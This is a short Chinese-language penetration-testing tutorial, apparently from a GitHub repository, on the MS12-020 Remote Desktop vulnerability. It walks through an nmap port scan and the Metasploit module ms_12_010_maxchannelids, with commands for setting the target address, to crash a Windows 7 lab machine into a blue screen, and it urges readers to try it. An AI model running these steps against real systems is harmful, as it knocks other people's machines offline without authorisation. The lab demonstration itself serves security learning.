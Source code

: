 ##MS12_020远程桌面中的漏洞可执行任意代码
###漏洞描述
如果攻击者向受影响的系统发送一系列特制的RDP数据包，则这些漏洞中较为严重的漏洞可能允许远程执行代码
###影响到的版本
该漏洞影响到的版本有Windows XP，2003，Vista，7,2008和2008 R2，请及时打补丁
##如何利用该漏洞使victim电脑蓝屏

在大部分人使用Windows系统的印象中，蓝屏是很经常碰到的，大家都以为是Windows系统的不稳定

但是

***今天你就会发现简单的几条命令就可以远程让你的桌面蓝屏***

攻击者：Kali           IP地址:192.168.43.196

victim：Windows7       IP地址:192.168.43.14


###扫描端口
首先我们还是需要先扫描victim的端口，还是使用nmap
```
nmap -Pn 192.168.43.14
```
![nmap](ch2/01/nmap.png)

我们发现victim端口的开启状态，其中用于远程连接的***3389***端口是开启的
###准备渗透
接下来我们需要用到MSF框架中自带的模块，即ms_12_010_maxchannelids
我们先加载模块，通过命令
```
use auxiliary/dos/windows/rdp/ms_12_010_maxchannelids
```
![scan](ch2/01/auxi.png)

先查看一下模块的基本信息
```
info
```
![module](ch2/01/module.png)
###查看渗透模块参数
使用命令查看配置的参数
```
show options
```
![canshu](ch2/01/rport.png)

可以看到有这两个参数，RHOST和RPORT

从图片中可以看到参数***RPORT***的默认值为3389，因为该漏洞就是利用***远程桌面的端口***进行渗透
我们需要设置的参数只有RHOST
通过参数RHOST指定victim的IP地址
```
set RHOST x.x.x.x
```
![IP](ch2/01/ms12.png)

###开始渗透
现在正在进行渗透，正在检查RDP端口状态
![RDP](ch2/01/success.png)

***渗透成功！***
![complete](ch2/01/complete.png)
现在来看看victim的状态，已经出现了蓝屏 这个界面相当熟悉吧，说明我们这次渗透成功!

正常的来看

一般我们还以为这是正常的现象，但是蓝屏的背后可能是一次攻击


![lanping](ch2/01/lanp.png)

这个教程相对简单，赶快动手试试吧!

Enjoy It 


更多优质渗透教程，欢迎访问B站，来关注，投币点赞啊
[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")

***如果帮助到你，希望可以得到你的打赏***
